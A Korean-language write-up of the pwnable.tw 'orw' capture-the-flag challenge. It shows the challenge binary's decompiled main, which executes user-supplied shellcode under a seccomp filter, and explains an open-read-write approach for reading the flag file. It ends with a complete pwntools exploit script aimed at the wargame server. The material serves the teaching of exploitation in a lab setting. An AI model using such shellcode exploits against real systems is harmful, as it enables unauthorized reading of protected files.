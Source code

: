 ```yaml
---
title: "[pwnable.tw]orw"
date: 2019-11-17
tags: [pwnable.tw]
categories: [pwnable.tw]
---
```


HITCON-Training에서 풀었었는데 거기서 나온 문제랑 똑같은 문제이다. 

seccomp가 사용되서 open,read,write 빼고 다른 syscall은 사용할 수 없다. 

`/home/orw/flag` 파일을 읽어오면 된다고 한다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 200u);
  (shellcode)();
  return 0;
}
```

코드를 보면 내가 입력한 shellcode를 실행해준다.

그냥 shellcoding해주면 된다.

>\- stack 최상위에 저 문자열을 넣어준다.
>
>\- esp는 스택의 최상단 데이터를 가르키는 포인터니까 /home/orw/flag를 open()해준다.
>
>\- open()을 실행했으니 fd값이 eax에 담겨있을 것이다. 그리고 esp(/home/orw/flag)를 100바이트만큼 읽어은걸 esp에 저장한다.
>
>\- write() 함수로 stdout으로 esp(읽은 파일의 내용)의 내용을 출력해준다.

```c
from pwn import *
 
p = remote('chall.pwnable.tw',10001)
 
pay = asm(shellcraft.pushstr('/home/orw/flag'))
pay += asm(shellcraft.open('esp',0,0))
pay += asm(shellcraft.read('eax','esp','100'))
pay += asm(shellcraft.write('1','esp','100'))
p.sendlineafter(':',pay)
 
p.interactive()
```